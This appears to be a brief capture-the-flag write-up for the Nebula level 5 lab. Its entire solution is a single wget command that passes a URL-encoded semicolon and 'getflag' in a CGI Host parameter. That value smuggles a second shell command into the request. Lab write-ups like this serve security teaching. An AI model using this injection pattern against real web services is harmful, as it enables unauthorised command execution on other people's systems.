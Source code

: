 .. _nebula5:

.. role:: bash(code)
	  :language: bash

Nebula 5
========

Basic Information
-----------------


**Home Page** https://exploit-exercises.com/nebula/level05/

Solution
--------

:bash: `wget *nebula's IP*/index.cgi?Host=%3Bgetflag`
